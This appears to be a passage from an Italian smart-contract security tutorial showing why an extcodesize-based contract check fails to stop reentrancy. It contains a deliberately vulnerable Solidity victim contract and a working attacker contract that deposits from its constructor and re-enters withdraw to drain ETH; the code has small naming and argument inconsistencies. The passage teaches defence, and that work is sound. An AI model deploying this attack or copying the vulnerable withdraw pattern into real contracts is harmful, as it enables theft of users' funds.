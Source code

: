 Si potrebbe pensare di difendersi dal codice rientrante semplicemente impedendo a qualsiasi Smart Contract di interagire con il proprio codice. Se cerchi stackoverflow, trovi questo frammento di codice con tantissimi voti a favore:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Sembra avere senso: i contratti hanno codice, se il chiamante ha un codice, non si consente di depositare. Aggiungiamolo:

```solidity
// QUESTO CONTRATTO CONTIENE VULNERABILITA' INTENZIONALI, NON COPIARE
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NUOVA LINEA
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Per depositare ETH, non bisogna avere codice di Smart Contract al proprio indirizzo. A questo però si può facilmente ovviare con il seguente contratto di Attacker:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- New line
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
